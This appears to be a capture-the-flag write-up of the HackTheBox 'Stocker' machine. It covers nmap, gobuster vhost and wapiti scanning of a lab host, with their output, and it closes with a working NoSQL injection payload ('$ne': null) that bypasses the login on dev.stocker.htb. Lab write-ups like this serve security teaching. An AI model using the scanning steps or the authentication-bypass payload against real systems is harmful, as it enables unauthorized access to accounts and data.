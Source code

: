 ```yaml
---
description: 'hackthebox rating : easy'
---
```


# Stocker HTB



## Scanning and enumeration :thumbsup:

### nmap scan



<pre class="language-bash"><code class="lang-bash"># COMMAND
nmap -A <a data-footnote-ref href="#user-content-fn-1">10.10.11.196</a>

# Output Sample
Starting Nmap 7.91 ( https://nmap.org ) at 2023-03-03 16:53 +01
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Stock - Coming Soon!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.45 seconds

</code></pre>

We note that a nginx 1.18.0 web server is running on port 80. (we will search on vulnerabilities on this version latter)

### Subdomain enumeration:

```bash
#COMMAND
gobuster vhost -w {wordlist location} -u http://stocker.htb/

# Output
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/kali/Desktop/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/03/03 17:13:44 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
Progress: 147 / 4990 (2.95%)  
```

Let's discover dev.stocker.htb .

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

The website requests a login; I attempted sql injection and xss, but without success.

I tried also to enumerate directories bus i didn't fount anything, then i tried to scan website  with wapiti and zap&#x20;

#### WAPIT :&#x20;

```bash
# COMMAND
wapiti -u http://dev.stocker.htb/login

# Output

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti-3.0.4 (wapiti.sourceforge.io)
[*] Saving scan state, please wait...

 Note
========
This scan has been saved in the file /home/kali/.wapiti/scans/dev.stocker.htb_folder_9ad5a234.db
[*] Wapiti found 3 URLs and forms during the scan
[*] Loading modules:
         backup, blindsql, brute_login_form, buster, cookieflags, crlf, csp, csrf, exec, file, htaccess, http_headers, methods, nikto, permanentxss, redirect, shellshock, sql, ssrf, wapp, xss, xxe
Problem with local wapp database.
Downloading from the web...

[*] Launching module csp
CSP is not set

[*] Launching module http_headers
Checking X-Frame-Options :
X-Frame-Options is not set
Checking X-XSS-Protection :
X-XSS-Protection is not set
Checking X-Content-Type-Options :
X-Content-Type-Options is not set
Checking Strict-Transport-Security :
Strict-Transport-Security is not set

[*] Launching module cookieflags
Checking cookie : connect.sid
Secure flag is not set in the cookie : connect.sid

[*] Launching module exec

[*] Launching module file

[*] Launching module sql

[*] Launching module xss

[*] Launching module ssrf
[*] Asking endpoint URL https://wapiti3.ovh/get_ssrf.php?id=56jnbt for results, please wait...

[*] Launching module redirect

[*] Launching module blindsql
[!] Too much lag from website, can't reliably test time-based blind SQL
[!] Too much lag from website, can't reliably test time-based blind SQL

[*] Launching module permanentxss

Report
------
A report has been generated in the file /home/kali/.wapiti/generated_report
Open /home/kali/.wapiti/generated_report/dev.stocker.htb_03022023_1610.html with a browser to see this report.

```

Certain HTTP Secure Headers (X-Frame-Options, X-XSS-Protection, and X-Content-Type-Options), according to the report, are not set. Yet I can't seem to locate an exploit for such weaknesses.

#### ZAP :&#x20;

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

The "X-Powered-By: Express" header is related to the Express.js web application framework, which is a popular framework for building web applications in Node.js. This header indicates that the web server is running an application built with the Express.js framework. Also express.js can be used to manage MongoDB databases.&#x20;

So I tried to find some vulnerabilities; I visited [hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection) and [lisandre](https://lisandre.com/archives/2286), and it was really insightful.

### Gaining access

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

I changed the value of Content-type to :&#x20;

&#x20;`Content-type: application/json`

And I used the following payload to bypass the login page:&#x20;

```json
{"username": {"$ne": null}, "password": {"$ne": null} }
```

The login page was successfully avoided by the payload.







[^1]: target ip address

